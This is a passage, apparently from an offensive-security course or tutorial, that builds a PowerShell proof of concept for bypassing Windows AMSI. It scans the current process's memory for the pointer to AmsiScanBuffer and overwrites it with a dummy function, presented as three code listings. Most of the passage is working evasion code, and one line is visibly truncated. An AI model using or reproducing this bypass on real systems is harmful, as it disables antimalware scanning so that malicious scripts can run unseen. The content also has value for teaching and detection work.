 Finally, _$MaxOffset_ is the total number of bytes I will search starting
from _ScanContent_, which will be 0x1000000.

Let's add the code for each of these parameters to our proof of concept.

```
# Define named parameters
param(
    $InitialStart = 0x50000,
    $NegativeOffset= 0x50000,
    $MaxOffset = 0x1000000,
    $ReadBytes = 0x50000
)
```
> Listing {#l:AMSI_parameters} - Script Parameters

Next, I will set up our loops. The first loop will read 0x50000 bytes at a
time and the second loop will search the array byte-by-byte comparing each
8 bytes to the address of _AmsiScanBuffer_ until a match is found, at
which point the loop will break.

```
[IntPtr] $MethodPointer = $MethodFound.MethodHandle.GetFunctionPointer()
[IntPtr] $Handle = [APIs]::GetCurrentProcess()
$dummy = 0

:initialloop for($j = $InitialStart; $j -lt $MaxOffset; $j += $NegativeOffset){
    [IntPtr] $MethodPointerToSearch = [Int64] $MethodPointer - $j
    $ReadedMemoryArray = [byte[]]::new($ReadBytes)
    $ApiReturn = [APIs]::ReadProcessMemory($Handle, $MethodPointerToSearch, $ReadedMemoryArray, $ReadBytes,[ref]$dummy)
    for ($i = 0; $i -lt $ReadedMemoryArray.Length; $i += 1) {
         $bytes = [byte[]]($ReadedMemoryArray[$i], $ReadedMemoryArray[$i + 1], $ReadedMemoryArray[$i + 2], $ReadedMemoryArr>
         [IntPtr] $PointerToCompare = [bitconverter]::ToInt64($bytes,0)
         if ($PointerToCompare -eq $funcAddr) {
                 Write-Host "Found @ $($i)!"
                 [IntPtr] $MemoryToPatch = [Int64] $MethodPointerToSearch + $i
                 break initialloop
         }
    }
}
```
> Listing {#l:AMSI_loops} - Script Loops

After finding the entry address containing _AmsiScanBuffer_, I will replace
it with our Dummy function (without using _VirtualProtect_).

```
[IntPtr] $DummyPointer = [APIs].GetMethod('Dummy').MethodHandle.GetFunctionPointer()
$buf = [IntPtr[]] ($DummyPointer)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $MemoryToPatch, 1)
```
> Listing {#l:AMSI_dummy_function_inject} - Dummy Function Inject

